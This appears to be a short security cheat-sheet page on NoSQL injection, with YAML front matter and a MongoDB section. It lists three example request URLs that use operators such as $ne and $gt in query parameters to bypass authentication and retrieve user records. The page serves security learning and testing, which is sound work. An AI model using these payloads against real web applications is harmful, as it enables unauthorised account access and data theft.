 ```yaml
---
title: NoSQL Injection
description: NoSQL Injection is derived from SQL Injection. It affects NoSQL database such as MongoDB, Apache Cassandra.
tags:
    - Database
    - SQL Injection
    - Web
refs:
date: 2022-12-22
draft: false
---
```


## Manual Injection

### MongoDB

If the web application uses MongDB, you might be able to fetch the user's information.  
It allows you to bypass authentication.

```sh
https://vulnerable.com/search?username=admin&password[$ne]=xyz
https://vulnerable.com/search?username[$ne]=admin&role=guest
https://vulnerable.com/search?id[$gt]=1&username=mike
```
